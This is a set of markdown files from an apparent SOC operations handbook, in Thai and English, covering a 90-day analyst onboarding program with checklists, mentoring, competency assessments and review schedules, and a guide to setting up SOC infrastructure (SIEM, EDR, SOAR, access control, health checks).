| การปฏิบัติตาม Playbook | แบบฝึกหัด Tabletop | ไม่มีช่องว่างวิกฤต |
| ความชำนาญเครื่องมือ | สาธิตปฏิบัติ | ใช้ SIEM, EDR, SOAR ได้เอง |

## โปรแกรมพี่เลี้ยง

| สัปดาห์ | กิจกรรมพี่เลี้ยง | กิจกรรมนักวิเคราะห์ใหม่ |
|:---|:---|:---|
| สัปดาห์ 1 | Shadow ระหว่างกะ | สังเกตการคัดกรอง, จดบันทึก |
| สัปดาห์ 2 | รีวิวการคัดกรองแรก | คัดกรองพร้อมรีวิวก่อนปิด |
| สัปดาห์ 3 | พร้อมตอบคำถาม | คัดกรองเองได้ |
| สัปดาห์ 4 | ประเมิน Drill สุดท้าย | ทำ Drill ด้วยตัวเอง |

## เกณฑ์สำเร็จ

- [ ] เรียนครบ 4 สัปดาห์
- [ ] ผ่านการประเมินสมรรถนะ (≥ 80%)
- [ ] ทำ Purple team drill อย่างน้อย 1 ครั้ง
- [ ] ส่งรายงาน IR จำลอง 1 ฉบับ (ผู้จัดการอนุมัติ)
- [ ] แสดงความชำนาญ SIEM, EDR, Ticketing
- [ ] พี่เลี้ยงลงนามยืนยัน
- [ ] ผ่านการอบรม PDPA

## เส้นทางใบรับรอง

| ใบรับรอง | เป้าหมาย | ความเกี่ยวข้อง |
|:---|:---|:---|
| CompTIA Security+ | เดือน 3 | ความรู้ด้านความปลอดภัยพื้นฐาน |
| CySA+ / GCIH | ปี 1 | ความเชี่ยวชาญจัดการเหตุการณ์ |
| SANS SEC504 | ปี 1-2 | การตอบสนองเหตุการณ์ขั้นสูง |
| BTL1 | ปี 1 | ทักษะ Blue team ปฏิบัติ |

## แผน Onboarding 90 วัน

### สัปดาห์ 1-2: พื้นฐาน
| วัน | กิจกรรม | ผลลัพธ์ |
|:---|:---|:---|
| 1 | ต้อนรับ, บัตร, ตั้งค่า account | เข้าถึงเครื่องมือ SOC ทั้งหมด |
| 2 | อ่าน SOC 101 + Glossary | ทำ Quiz: ผ่าน 80% |
| 3 | ปฐมนิเทศ SIEM (read-only) | นำทาง dashboard ได้ |
| 4 | ฝึก ticketing system | สร้าง/อัปเดต tickets ได้ |
| 5 | เงา T1 analyst (กะเต็ม) | บันทึกสังเกตการณ์ |
| 6-10 | เรียน Security+ modules | Module completion |

### สัปดาห์ 3-4: สร้างทักษะ
| วัน | กิจกรรม | ผลลัพธ์ |
|:---|:---|:---|
| 11-12 | อ่าน top 5 playbooks | สรุป playbook |
| 13-14 | Lab ฝึก SIEM query | ทำ 10 queries สำเร็จ |
| 15 | ปฐมนิเทศ EDR tool | นำทาง EDR console ได้ |
| 16-17 | Workshop วิเคราะห์ log | วิเคราะห์ 20 sample alerts |
| 18-20 | เงา T1 + จัดการ alert ง่าย | ปิดตั๋ว 5 ใบแรก |

### เดือน 2: ฝึกภายใต้การดูแล
| สัปดาห์ | กิจกรรม | ผลลัพธ์ |
|:---|:---|:---|
| 5 | จัดการ alerts อิสระ (T2 ทบทวน) | ความแม่นยำ 80%+ |
| 6 | ฝึกครบ 10 alert types | Scorecard: 80%+ |
| 7 | กะแรกคนเดียว (senior standby) | Shift report |
| 8 | ฝึก escalation scenarios | ผ่าน 3 scenarios |

### เดือน 3: เป็นอิสระ
| สัปดาห์ | กิจกรรม | ผลลัพธ์ |
|:---|:---|:---|
| 9 | ทำงานกะอิสระเต็มที่ | MTTD ภายใน SLA |
| 10 | เข้าร่วม Purple team exercise | Exercise report |
| 11 | เขียน Knowledge Base article 1 ชิ้น | KB article published |
| 12 | ทบทวน 90 วัน กับ SOC Manager | ประเมินผลงาน |

### เกณฑ์สำเร็จ
```
□ Triage 10 alert types อิสระได้
□ MTTD สม่ำเสมอภายใน SLA (≤ 60 นาที)
□ FP identification rate > 80%
□ Escalation ถูกต้อง > 90%
□ บันทึก ticket ครบถ้วนและถูกต้อง
□ สอบ Security+ ผ่าน (หรือนัดสอบแล้ว)
□ Feedback เชิงบวกจาก shift mentors
```

## เอกสารที่เกี่ยวข้อง (Related Documents)
-   [Training Checklist](Training_Checklist.th.md)
-   [กรอบ Incident Response](../05_Incident_Response/Framework.th.md)
-   [คู่มือจำลองการโจมตี](../09_Simulation_Testing/Simulation_Guide.en.md)

### Onboarding Milestones

| Week | Milestone |
|:---|:---|
| 1 | Tools setup complete |
| 4 | First solo triage |

## References
-   [SANS SOC Analyst Training](https://www.sans.org/cyber-security-courses/)
-   [NICE Cybersecurity Workforce Framework](https://niccs.cisa.gov/workforce-development/nice-framework)


---

## File: 10_Training_Onboarding/SOC_Onboarding.en.md

# SOC Analyst Onboarding Checklist

**Document ID**: OPS-SOP-017
**Version**: 1.0
**Classification**: Internal
**Last Updated**: 2026-02-15

> A **structured 90-day onboarding program** for new SOC analysts. Covers access provisioning, tool training, shadow shifts, and competency validation. Goal: new hires become independently productive within 90 days.

---

## Onboarding Timeline

```mermaid
gantt
    title SOC Analyst Onboarding (90 Days)
    dateFormat YYYY-MM-DD
    section Week 1-2: Foundation
        HR & admin onboarding        :a1, 2026-03-01, 3d
        System access provisioning    :a2, 2026-03-01, 5d
        SOC overview & culture        :a3, after a1, 2d
        Tool walkthrough (SIEM/EDR)   :a4, after a3, 5d
    section Week 3-4: Shadow
        Shadow Tier 1 shifts          :b1, after a4, 10d
        SOP & playbook study          :b2, after a4, 10d
    section Week 5-8: Guided
        Handle alerts with mentor     :c1, after b1, 20d
        First incident report         :c2, after b1, 20d
        Detection rule authoring      :c3, 2026-04-15, 5d
    section Week 9-12: Independent
        Independent shift work        :d1, after c1, 15d
        Competency assessment         :d2, 2026-05-20, 5d
        30-60-90 review               :d3, 2026-05-25, 3d
```

---

## Phase 1: Foundation (Week 1–2)

### Day 1: Welcome & Admin

- [ ] Complete HR paperwork & security clearance
- [ ] Receive laptop, badges, and physical access cards
- [ ] Review and sign SOC NDA / acceptable use policy
- [ ] Meet SOC Manager and team leads
- [ ] Receive onboarding packet (this document + reading list)
- [ ] Set up communication channels (Slack, Teams, email groups)
- [ ] Add to on-call rotation calendar (observer only)

### Day 2–3: Access Provisioning

| System | Access Level | Provisioned | Verified |
|:---|:---|:---:|:---:|
| **SIEM** (search & view) | Read-only | ⬜ | ⬜ |
| **EDR Console** | Read-only | ⬜ | ⬜ |
| **Ticketing System** | Create/edit tickets | ⬜ | ⬜ |
| **SOAR** | View playbooks | ⬜ | ⬜ |
| **TI Platform** | Search IOCs | ⬜ | ⬜ |
| **Email** | SOC distribution list | ⬜ | ⬜ |
| **Wiki / Knowledge Base** | Read + contribute | ⬜ | ⬜ |
| **VPN** | SOC VPN profile | ⬜ | ⬜ |
| **Active Directory** | SOC security group | ⬜ | ⬜ |
| **SOC physical room** | 24/7 badge access | ⬜ | ⬜ |

> ⚠️ Write access to SIEM rules and EDR policies granted only after competency assessment (Week 9+).

### Day 3–5: SOC Overview

| Topic | Duration | Presenter | Materials |
|:---|:---:|:---|:---|
| SOC mission, charter, and structure | 1 hr | SOC Manager | SOC Charter |
| SOC tiers (1/2/3) and responsibilities | 1 hr | Team Lead | Roles & Responsibilities |
| Shift schedule and handoff process | 30 min | Shift Lead | [SOC Checklists](../06_Operations_Management/SOC_Checklists.en.md) |
| Communication protocols | 30 min | SOC Lead | [Communication SOP](../06_Operations_Management/SOC_Communication.en.md) |
| Escalation procedures | 1 hr | SOC Lead | [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) |
| Incident classification | 1 hr | Tier 2 Analyst | [Incident Classification](../05_Incident_Response/Incident_Classification.en.md) |

### Day 6–10: Tool Training

| Tool | Training Type | Duration | Trainer | Competency Check |
|:---|:---|:---:|:---|:---|
| **SIEM** | Hands-on lab | 4 hrs | Detection Engineer | Write 3 queries |
| **EDR** | Walkthrough + lab | 2 hrs | Tier 2 Analyst | Investigate 1 endpoint |
| **Ticketing** | Hands-on | 1 hr | Tier 1 Analyst | Create & close test ticket |
| **SOAR** | Demo | 1 hr | SOAR Engineer | Run 1 playbook in sandbox |
| **TI Platform** | Hands-on | 1 hr | TI Analyst | Look up 5 IOCs |
| **Internal Wiki** | Self-study | 2 hrs | Self | Navigate to 5 key SOPs |

---

## Phase 2: Shadow (Week 3–4)

### Shadow Shift Requirements

| Requirement | Details |
|:---|:---|
| **Total shadow hours** | Minimum 40 hours (5 full shifts) |
| **Shift variety** | At least 1 day shift + 1 night shift |
| **Mentor** | Assigned Tier 1/2 analyst for each shadow shift |
| **Activities** | Observe triage, watch investigations, ask questions |
| **Restrictions** | May NOT close tickets or take actions independently |
| **Log** | Document 10 interesting alerts and how they were triaged |

### Required Reading (Complete During Weeks 3–4)

| Document | Priority | Completed |
|:---|:---:|:---:|
| [IR Framework](../05_Incident_Response/Framework.en.md) | 🔴 Must | ⬜ |
| [Tier 1 Runbook](../05_Incident_Response/Runbooks/Tier1_Runbook.en.md) | 🔴 Must | ⬜ |
| Top 5 Playbooks (Phishing, Malware, Unauth Access, Ransomware, BEC) | 🔴 Must | ⬜ |
| [Alert Tuning SOP](../06_Operations_Management/Alert_Tuning.en.md) | 🟡 Should | ⬜ |
| [Evidence Collection](../05_Incident_Response/Evidence_Collection.en.md) | 🟡 Should | ⬜ |
| [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md) | 🟡 Should | ⬜ |
| [SOC Automation Catalog](../06_Operations_Management/SOC_Automation_Catalog.en.md) | 🟢 Nice | ⬜ |

### Shadow Shift Log

| Date | Shift | Mentor | Alerts Observed | Key Learning | Mentor Sign-off |
|:---|:---:|:---|:---:|:---|:---:|
| ____-__-__ | Day/Night | ____________ | _____ | ________________________ | ⬜ |
| ____-__-__ | Day/Night | ____________ | _____ | ________________________ | ⬜ |

---

## Phase 3: Guided Work (Week 5–8)

### Guided Shift Requirements

| Requirement | Details |
|:---|:---|
| **Mentor presence** | Mentor available (same shift, not necessarily same desk) |
| **Alert handling** | Handle real alerts with mentor review before closing |
| **Escalation** | Must escalate anything P2+ to mentor |
| **Ticket quality** | Mentor reviews first 20 tickets for completeness |
| **First incident** | Write first incident report (mentor reviews) |

### Milestone Checklist

- [ ] Triage 100+ alerts independently (mentor-reviewed)
- [ ] Create 20+ properly documented tickets
- [ ] Correctly escalate at least 3 incidents
- [ ] Write 1 complete incident report
- [ ] Perform 1 guided evidence collection
- [ ] Participate in 1 shift handoff (giving handoff)
- [ ] Propose 1 alert tuning request (real FP observed)
- [ ] Pass mid-point knowledge quiz (score ≥ 70%)

### Mid-Point Knowledge Quiz Topics

| Topic | Questions | Weight |
|:---|:---:|:---:|
| Alert triage process | 5 | 20% |
| Incident classification (P1–P4) | 5 | 20% |
| SIEM query basics | 5 | 20% |
| Escalation procedures | 3 | 15% |
| Evidence handling | 3 | 15% |
| Communication protocols | 2 | 10% |

---

## Phase 4: Independent (Week 9–12)

### Independent Shift Criteria

- [ ] Mid-point quiz passed (≥ 70%)
- [ ] Mentor recommends independence
- [ ] SOC Lead approves independent shift status
- [ ] After-hours emergency contact list provided

### Week 9–12 Activities

| Activity | Completion |
|:---|:---:|
| Handle full shift independently (mentor available by phone) | ⬜ |
| Handle at least 1 P2+ incident end-to-end | ⬜ |
| Write detection rule (Sigma format) with peer review | ⬜ |
| Participate in threat hunting exercise | ⬜ |
| Complete final competency assessment | ⬜ |

---

## Competency Assessment (Day 85–90)

### Assessment Components

| Component | Weight | Assessor |
|:---|:---:|:---|
| **Written exam** (MC + short answer) | 30% | SOC Lead |
| **Practical lab** (triage 5 scenarios) | 40% | Tier 2 Mentor |
| **Ticket quality audit** (random 10 tickets) | 15% | SOC Lead |
| **Mentor evaluation** | 15% | Assigned Mentor |

### Practical Lab Scenarios

| # | Scenario | Expected Actions | Time Limit |
|:---:|:---|:---|:---:|
| 1 | Phishing email with malicious attachment | Email analysis, IOC extract, block | 20 min |
| 2 | Brute-force login followed by success | Log review, account assessment, escalate | 15 min |
| 3 | EDR alert: suspicious process | Process investigation, containment decision | 15 min |
| 4 | Data exfiltration indicators | Network analysis, scope, escalate | 20 min |
| 5 | False positive triage and documentation | Identify FP, document, propose tuning | 10 min |

### Pass Criteria

| Criteria | Required |
|:---|:---:|
| Written exam score | ≥ 70% |
| Practical lab score | ≥ 75% |
| Ticket quality score | ≥ 80% |
| Mentor recommendation | Positive |
| **Overall** | **All criteria met** |

---

## 30-60-90 Day Reviews

| Review | Date | Participants | Focus |
|:---|:---:|:---|:---|
| **30-day** | Week 4 | Analyst + Mentor + SOC Lead | Comfort level, access issues, learning gaps |
| **60-day** | Week 8 | Analyst + Mentor + SOC Lead | Skill progress, ticket quality, readiness for independence |
| **90-day** | Week 12 | Analyst + SOC Manager | Assessment results, formal role confirmation, development plan |

### Review Template

| Topic | 30-Day | 60-Day | 90-Day |
|:---|:---:|:---:|:---:|
| Tool proficiency | ⬜ | ⬜ | ⬜ |
| Alert triage quality | — | ⬜ | ⬜ |
| Communication & teamwork | ⬜ | ⬜ | ⬜ |
| SOP adherence | — | ⬜ | ⬜ |
| Escalation judgment | — | ⬜ | ⬜ |
| Documentation quality | — | ⬜ | ⬜ |
| Areas for improvement | ⬜ | ⬜ | ⬜ |
| Recommended training | ⬜ | ⬜ | ⬜ |

---

## Ongoing Development (Post-90 Days)

| Activity | Frequency | Goal |
|:---|:---:|:---|
| 1-on-1 with SOC Lead | Monthly | Career development, feedback |
| Advanced training courses | Quarterly | Skill building (threat hunting, forensics, cloud) |
| Certification pursuit | Annual | BTL1, CySA+, GCIH, GCIA |
| Cross-training (Tier 2 skills) | After 6 months | Prepare for promotion |
| Purple team participation | Quarterly | Hands-on adversary techniques |
| Conference / CTF | Annual | Industry engagement |

---

## Related Documents

-   SOC Charter — Mission and structure
-   Roles & Responsibilities — Tier definitions
-   Training Program — Long-term training
-   [Tier 1 Runbook](../05_Incident_Response/Runbooks/Tier1_Runbook.en.md) — Day-to-day procedures
-   [IR Framework](../05_Incident_Response/Framework.en.md) — Incident response lifecycle
-   [SOC Checklists](../06_Operations_Management/SOC_Checklists.en.md) — Operational checklists
-   [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) — When to escalate


---

## File: 10_Training_Onboarding/SOC_Onboarding.th.md

# SOC Analyst Onboarding Checklist / Checklist การเตรียมความพร้อม SOC Analyst

**รหัสเอกสาร**: OPS-SOP-017
**เวอร์ชัน**: 1.0
**การจัดชั้นความลับ**: ใช้ภายใน
**อัปเดตล่าสุด**: 2026-02-15

> **โปรแกรม onboarding 90 วัน** สำหรับ SOC analyst ใหม่ ครอบคลุมการให้สิทธิ์, การฝึกอบรมเครื่องมือ, การลงกะ shadow, และการประเมินความสามารถ เป้าหมาย: analyst ใหม่ทำงานได้อย่างอิสระภายใน 90 วัน

---

## เฟส 1: พื้นฐาน (สัปดาห์ 1–2)

### วันที่ 1: ต้อนรับ

- [ ] ทำเอกสาร HR & security clearance
- [ ] รับ laptop, บัตรผ่าน, physical access
- [ ] ทบทวนและลงชื่อ NDA / นโยบายการใช้งาน
- [ ] พบ SOC Manager และหัวหน้าทีม
- [ ] รับเอกสาร onboarding (เอกสารนี้ + รายการอ่าน)
- [ ] ตั้งค่าช่องทางสื่อสาร (Slack, Teams, email groups)

### วันที่ 2–3: การให้สิทธิ์เข้าถึง

| ระบบ | ระดับสิทธิ์ | ให้แล้ว | ตรวจสอบ |
|:---|:---|:---:|:---:|
| **SIEM** (ค้นหา & ดู) | อ่านอย่างเดียว | ⬜ | ⬜ |
| **EDR Console** | อ่านอย่างเดียว | ⬜ | ⬜ |
| **Ticketing** | สร้าง/แก้ไข ticket | ⬜ | ⬜ |
| **SOAR** | ดู playbook | ⬜ | ⬜ |
| **TI Platform** | ค้นหา IOC | ⬜ | ⬜ |
| **Email** | SOC distribution list | ⬜ | ⬜ |
| **Wiki / KB** | อ่าน + เขียน | ⬜ | ⬜ |
| **VPN** | SOC VPN profile | ⬜ | ⬜ |
| **Active Directory** | SOC security group | ⬜ | ⬜ |

> ⚠️ สิทธิ์เขียน SIEM rules / EDR policies จะได้หลังผ่านการประเมิน (สัปดาห์ 9+)

### วันที่ 3–5: ภาพรวม SOC

| หัวข้อ | ระยะเวลา | ผู้นำเสนอ | เอกสาร |
|:---|:---:|:---|:---|
| ภารกิจ, กฎบัตร, โครงสร้าง SOC | 1 ชม. | SOC Manager | SOC Charter |
| SOC tiers (1/2/3) และหน้าที่ | 1 ชม. | Team Lead | Roles & Responsibilities |
| ตารางกะ & handoff | 30 นาที | Shift Lead | SOC Checklists |
| ขั้นตอนสื่อสาร | 30 นาที | SOC Lead | Communication SOP |
| การ escalate | 1 ชม. | SOC Lead | Escalation Matrix |
| การจำแนก incident | 1 ชม. | Tier 2 Analyst | Incident Classification |

### วันที่ 6–10: ฝึกอบรมเครื่องมือ

| เครื่องมือ | ประเภทฝึก | ระยะเวลา | ทดสอบ |
|:---|:---|:---:|:---|
| **SIEM** | Hands-on lab | 4 ชม. | เขียน query 3 ข้อ |
| **EDR** | Walkthrough + lab | 2 ชม. | สืบสวน 1 endpoint |
| **Ticketing** | Hands-on | 1 ชม. | สร้าง & ปิด test ticket |
| **SOAR** | Demo | 1 ชม. | รัน 1 playbook ใน sandbox |
| **TI Platform** | Hands-on | 1 ชม. | ค้นหา 5 IOCs |

---

## เฟส 2: Shadow (สัปดาห์ 3–4)

### ข้อกำหนด Shadow Shift

| ข้อกำหนด | รายละเอียด |
|:---|:---|
| **ชั่วโมง shadow รวม** | อย่างน้อย 40 ชม. (5 กะเต็ม) |
| **ความหลากหลาย** | อย่างน้อย 1 กะกลางวัน + 1 กะกลางคืน |
| **Mentor** | มอบหมาย Tier 1/2 analyst แต่ละกะ |
| **กิจกรรม** | สังเกต triage, ดูการสืบสวน, ถามคำถาม |
| **ข้อจำกัด** | **ห้าม** ปิด ticket หรือดำเนินการอิสระ |
| **บันทึก** | จด 10 alerts ที่น่าสนใจและวิธี triage |

### เอกสารที่ต้องอ่าน

| เอกสาร | ลำดับ | เสร็จ |
|:---|:---:|:---:|
| IR Framework | 🔴 ต้องอ่าน | ⬜ |
| Tier 1 Runbook | 🔴 ต้องอ่าน | ⬜ |
| Playbook 5 อันดับแรก (Phishing, Malware, Unauth Access, Ransomware, BEC) | 🔴 ต้องอ่าน | ⬜ |
| Alert Tuning SOP | 🟡 ควรอ่าน | ⬜ |
| Evidence Collection | 🟡 ควรอ่าน | ⬜ |
| Log Source Matrix | 🟡 ควรอ่าน | ⬜ |

---

## เฟส 3: ทำงานแบบมีพี่เลี้ยง (สัปดาห์ 5–8)

### ข้อกำหนด

| ข้อกำหนด | รายละเอียด |
|:---|:---|
| **Mentor** | อยู่กะเดียวกัน, ถามได้ |
| **จัดการ alert** | จัดการจริง แต่ mentor review ก่อนปิด |
| **Escalation** | P2+ ต้อง escalate ให้ mentor |
| **คุณภาพ ticket** | Mentor review 20 ticket แรก |

### Milestone Checklist

- [ ] Triage 100+ alerts (mentor review)
- [ ] สร้าง 20+ tickets ที่มีเอกสารครบ
- [ ] Escalate อย่างน้อย 3 incidents ถูกต้อง
- [ ] เขียน incident report 1 ฉบับ
- [ ] ทำ evidence collection 1 ครั้ง (มีพี่เลี้ยง)
- [ ] เสนอ alert tuning request 1 รายการ
- [ ] ผ่าน quiz กลางเทอม (≥ 70%)

---

## เฟส 4: อิสระ (สัปดาห์ 9–12)

### เกณฑ์เริ่มทำงานอิสระ

- [ ] ผ่าน quiz กลางเทอม (≥ 70%)
- [ ] Mentor แนะนำให้เป็นอิสระ
- [ ] SOC Lead อนุมัติ

### กิจกรรมสัปดาห์ 9–12

- [ ] จัดการกะเต็มอิสระ (mentor โทรถามได้)
- [ ] จัดการ P2+ incident ครบวงจร อย่างน้อย 1 ครั้ง
- [ ] เขียน detection rule (Sigma) + peer review
- [ ] เข้าร่วม threat hunting exercise
- [ ] ทำ competency assessment สุดท้าย

---

## การประเมินความสามารถ (วันที่ 85–90)

### องค์ประกอบ

| องค์ประกอบ | น้ำหนัก | ผู้ประเมิน |
|:---|:---:|:---|
| **ข้อสอบ** (MC + คำตอบสั้น) | 30% | SOC Lead |
| **Lab ปฏิบัติ** (triage 5 สถานการณ์) | 40% | Tier 2 Mentor |
| **Audit คุณภาพ ticket** (สุ่ม 10 tickets) | 15% | SOC Lead |
| **ประเมินจาก mentor** | 15% | Mentor ที่มอบหมาย |

### สถานการณ์ Lab ปฏิบัติ

| # | สถานการณ์ | สิ่งที่คาดหวัง | เวลา |
|:---:|:---|:---|:---:|
| 1 | Phishing email + ไฟล์แนบอันตราย | วิเคราะห์ email, ดึง IOC, บล็อก | 20 นาที |
| 2 | Brute-force login ตามด้วย success | ตรวจ log, ประเมิน account, escalate | 15 นาที |
| 3 | EDR alert: process น่าสงสัย | สืบสวน process, ตัดสินใจ contain | 15 นาที |
| 4 | สัญญาณ data exfiltration | วิเคราะห์ network, ขอบเขต, escalate | 20 นาที |
| 5 | False positive — triage & document | ระบุ FP, เอกสาร, เสนอ tuning | 10 นาที |

### เกณฑ์ผ่าน

| เกณฑ์ | ต้องได้ |
|:---|:---:|
| คะแนนข้อสอบ | ≥ 70% |
| คะแนน lab ปฏิบัติ | ≥ 75% |
| คุณภาพ ticket | ≥ 80% |
| แนะนำจาก mentor | บวก |

---

## ทบทวน 30-60-90 วัน

| ทบทวน | สัปดาห์ | ผู้เข้าร่วม | โฟกัส |
|:---|:---:|:---|:---|
| **30 วัน** | 4 | Analyst + Mentor + SOC Lead | ความสะดวกสบาย, ปัญหา access, ช่องว่างการเรียนรู้ |
| **60 วัน** | 8 | Analyst + Mentor + SOC Lead | ความก้าวหน้า, คุณภาพ ticket, ความพร้อมสำหรับอิสระ |
| **90 วัน** | 12 | Analyst + SOC Manager | ผลการประเมิน, ยืนยันบทบาท, แผนพัฒนา |

---

## การพัฒนาต่อเนื่อง (หลัง 90 วัน)

| กิจกรรม | ความถี่ | เป้าหมาย |
|:---|:---:|:---|
| 1-on-1 กับ SOC Lead | รายเดือน | พัฒนาอาชีพ, feedback |
| หลักสูตรขั้นสูง | รายไตรมาส | Threat hunting, forensics, cloud |
| Certification | รายปี | BTL1, CySA+, GCIH, GCIA |
| Cross-training (ทักษะ Tier 2) | หลัง 6 เดือน | เตรียมเลื่อนตำแหน่ง |
| Purple team | รายไตรมาส | เทคนิค adversary จริง |

---

## Onboarding Timeline

| สัปดาห์ | หัวข้อ | กิจกรรม | ผู้ดูแล |
|:---|:---|:---|:---|
| **สัปดาห์ 1** | Orientation | ทัวร์ SOC, แนะนำทีม, เข้าถึงระบบ | SOC Manager |
| **สัปดาห์ 2** | Tools | SIEM training, EDR console, ticketing | Tier 2 Mentor |
| **สัปดาห์ 3** | Process | Playbooks, escalation, shift handoff | Shift Lead |
| **สัปดาห์ 4** | Shadow | เข้ากะจริง (shadow Tier 1 analyst) | Buddy |
| **สัปดาห์ 5-6** | Supervised | Triage alerts ด้วยตัวเอง + review | Shift Lead |
| **สัปดาห์ 7-8** | Independent | ทำงานอิสระ + ประเมินผล | SOC Manager |

## Day 1 Checklist

| # | รายการ | สถานะ |
|:---:|:---|:---:|
| 1 | Badge / Physical access สำเร็จ | ☐ |
| 2 | AD account + email เปิดใช้งาน | ☐ |
| 3 | VPN access ทดสอบแล้ว | ☐ |
| 4 | SIEM console access | ☐ |
| 5 | EDR console access | ☐ |
| 6 | Ticketing system access | ☐ |
| 7 | Chat/Teams channel เข้าร่วมแล้ว | ☐ |
| 8 | Wiki/Knowledge base access | ☐ |
| 9 | ลงชื่อ NDA + Acceptable Use Policy | ☐ |
| 10 | พบ mentor/buddy | ☐ |

## Competency Assessment

| ทักษะ | ระดับที่คาดหวัง (30 วัน) | วิธีประเมิน |
|:---|:---|:---|
| Alert triage | Triage ได้ 10+ alerts/ชม. | สังเกต + review |
| SIEM query | เขียน basic query ได้ | Lab exercise |
| Playbook execution | ทำตาม playbook ได้ถูกต้อง | Tabletop |
| Escalation judgment | รู้เมื่อไหร่ต้อง escalate | Scenario test |
| Documentation | บันทึก investigation ได้ครบ | Ticket review |

## 90-Day Competency Assessment

### Skills Matrix

| Skill Area | Day 30 | Day 60 | Day 90 |
|:---|:---|:---|:---|
| Alert Triage | ทำได้ด้วยตัวเอง | มีประสิทธิภาพ | Expert |
| SIEM Queries | Basic searches | Complex queries | Custom dashboards |
| IR Procedures | รู้จัก playbooks | ปฏิบัติได้ | นำทีมได้ |
| Communication | รู้ escalation path | รายงานได้ดี | สอนคนอื่นได้ |
| Tools (EDR/FW) | Basic navigation | Investigation | Advanced hunting |

### Onboarding Feedback Survey

| Week | Survey Focus | Questions |
|:---|:---|:---|
| Week 2 | Initial experience | 5 ข้อ (scale 1-5) |
| Week 4 | Tool proficiency | 8 ข้อ + open-ended |
| Week 8 | Process confidence | 6 ข้อ + self-assess |
| Week 12 | Overall readiness | 10 ข้อ + manager eval |

### Buddy System Assignment

| Week | Focus | Buddy Role |
|:---|:---|:---|
| 1-2 | Tool navigation | Senior Analyst |
| 3-4 | Alert triage | Tier 2 |
| 5-8 | Investigation | Tier 2/3 |
| 9-12 | Independent work | Manager |

## เอกสารที่เกี่ยวข้อง

-   SOC Charter — ภารกิจและโครงสร้าง
-   Roles & Responsibilities — นิยาม tier
-   Training Program — แผนฝึกอบรมระยะยาว
-   [Tier 1 Runbook](../05_Incident_Response/Runbooks/Tier1_Runbook.en.md) — ขั้นตอนรายวัน
-   [IR Framework](../05_Incident_Response/Framework.en.md) — วงจร IR
-   [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md) — เมื่อไรต้อง escalate


---

## File: 10_Training_Onboarding/System_Activation.en.md

# Standard SOC Infrastructure Setup

This document outlines the standard infrastructure requirements and setup procedures for a modern Security Operations Center (SOC).

## 1. Core Components

```mermaid
graph LR
    Logs[Log Sources] -->|Ingest| SIEM[SIEM]
    Endpoints[Endpoints] -->|Agent| EDR[EDR]
    SIEM -->|Alert| SOAR[SOAR]
    EDR -->|Alert| SOAR
    SOAR -->|Create| Ticket[Ticketing]
    Ticket -->|Track| Analyst[SOC Analyst]
```

A fully functional SOC requires the following core components:

### 1.1 SIEM (Security Information and Event Management)
-   **Purpose**: Centralized log aggregation, correlation, and alerting.
-   **Requirements**:
    -   High availability and scalability.
    -   Retention policy compliance (e.g., 90 days hot, 1 year cold).
    -   Support for common log formats (Syslog, CEF, JSON).

### 1.2 EDR (Endpoint Detection and Response)
-   **Purpose**: Real-time monitoring and prevention on endpoints.
-   **Deployment**: Agents must be deployed to all workstations, servers, and critical assets.
-   **Policy**: Enforce prevention policies (Block/Quarantine) for known malware.

### 1.3 SOAR (Security Orchestration, Automation, and Response)
-   **Purpose**: Automate repetitive tasks and orchestrate incident response workflows.
-   **Integration**: Must connect with SIEM, EDR, and Ticketing systems.

### 1.4 Ticketing / Case Management
-   **Purpose**: Track incidents, investigations, and analyst activities.
-   **Workflow**: Seamless integration from SIEM alerts to case creation.

## 2. Infrastructure Hardening

### 2.1 Access Control
-   **MFA**: Enforce Multi-Factor Authentication for all SOC tools.
-   **RBAC**: Implement Role-Based Access Control (Analyst, Engineer, Manager).
-   **Segmentation**: SOC infrastructure should reside in a secure, segmented network zone.

### 2.2 Monitoring
-   **Health Checks**: Continuous monitoring of tool availability and performance.
-   **Audit Logs**: Enable audit logging for all SOC analyst actions.

## 3. Network Architecture

-   **Log Shippers**: Use dedicated forwarders to send logs to the SIEM securely (TLS encryption).
-   **Jump Host**: Use a secure Jump Host or VPN for administrative access to SOC infrastructure.

## 4. Tool Access Matrix

| Tool | Tier 1 Analyst | Tier 2 Analyst | Tier 3/IR | SOC Engineer | SOC Manager |
|:---|:---:|:---:|:---:|:---:|:---:|
| SIEM (Read) | ✅ | ✅ | ✅ | ✅ | ✅ |
| SIEM (Write/Config) | ❌ | ❌ | ✅ | ✅ | ✅ |
| EDR (View/Triage) | ✅ | ✅ | ✅ | ✅ | ✅ |
| EDR (Isolate/Contain) | ❌ | ✅ | ✅ | ✅ | ✅ |
| SOAR (Execute Playbooks) | ✅ | ✅ | ✅ | ✅ | ✅ |
| SOAR (Configure Workflows) | ❌ | ❌ | ✅ | ✅ | ✅ |
| Ticketing (Create/Update) | ✅ | ✅ | ✅ | ✅ | ✅ |
| Ticketing (Admin) | ❌ | ❌ | ❌ | ✅ | ✅ |
| Firewall/Proxy (View Logs) | ❌ | ✅ | ✅ | ✅ | ✅ |
| Firewall/Proxy (Block) | ❌ | ❌ | ✅ | ✅ | ✅ |

## 5. Health Check Schedule

| Component | Check | Frequency | Owner |
|:---|:---|:---|:---|
| SIEM Indexing | Verify all parsers active, no queue backlog | Hourly (automated) | SOC Engineering |
| EDR Coverage | Verify agent health on ≥95% endpoints | Daily | SOC Engineering |
| SOAR Connectivity | Test all integrations (API health check) | Daily | SOC Engineering |
| Log Forwarding | Confirm all critical sources reporting | Every shift | Shift Lead |
| Backup Status | Verify last backup success | Daily | SOC Engineering |
| Certificate Expiry | Check TLS certs for all SOC tools | Weekly | SOC Engineering |

## 6. Initial Setup Checklist

| # | Task | Owner | Done |
|:---:|:---|:---|:---:|
| 1 | Provision network segment for SOC infrastructure | Network Team | ☐ |
| 2 | Deploy SIEM cluster with HA configuration | SOC Engineering | ☐ |
| 3 | Install EDR agents on all endpoints | Endpoint Team | ☐ |
| 4 | Configure SOAR integrations (SIEM, EDR, Ticketing) | SOC Engineering | ☐ |
| 5 | Set up ticketing system and workflow rules | SOC Engineering | ☐ |
| 6 | Enable audit logging on all SOC tools | SOC Engineering | ☐ |
| 7 | Configure MFA for all SOC analyst accounts | IAM Team | ☐ |
| 8 | Implement RBAC roles (Analyst, Engineer, Manager) | IAM Team | ☐ |
| 9 | Set up jump host / VPN access | Network Team | ☐ |
| 10 | Validate log ingestion from all critical sources | SOC Engineering | ☐ |
